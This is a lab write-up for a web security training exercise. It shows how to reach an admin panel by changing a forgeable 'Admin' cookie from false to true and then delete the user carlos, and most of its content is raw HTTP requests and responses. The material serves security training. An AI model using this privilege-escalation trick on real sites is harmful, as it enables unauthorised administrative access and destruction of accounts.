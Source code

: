 ## Lab: User role controlled by request parameter
This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
Start by logging in with the credentials we have. After logging in we send the request to the repeater.

Request:
```http
GET /my-account?id=wiener HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=false; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Here we see a cookie named "Admin" set to false. Let's change this to true and try to access ```/admin```.
Request:
```http
GET /admin HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
    </head>
    <body>
**********SNIP***********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP***********
    </body>
</html>

```
Here we find the delete endpoint again.

Request:
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](../img/Solved_the_Lab.png)

## Alternative:
We could also, after login, change the cookie value in the browser to get access to the Admin panel link and delete the user through the browser.
![](../img/Cookie_Browser_Alternative_Lab_2.png)